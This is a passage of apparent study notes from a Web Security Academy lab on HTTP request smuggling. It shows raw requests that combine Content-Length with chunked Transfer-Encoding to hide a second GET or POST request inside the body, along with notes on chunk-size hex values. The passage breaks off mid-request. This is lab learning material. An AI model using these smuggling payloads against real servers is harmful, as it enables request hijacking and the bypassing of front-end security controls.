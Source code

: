 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

13
GET /404 HTTP/1.1

0


```

- 13 is 0x13, 19 in decimals

- Everything ABOVE the 0 line (exclude 0 line)

If you want to use POST, need to have content body and stuff:

```
POST / HTTP/1.1
Host: 0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net
Cookie: session=80YpPSfgNZ76O5dC5bZWIWcE2PCpDkKf
Content-Length: 4
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae1004004f6309bc0cf1cb100b50096.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
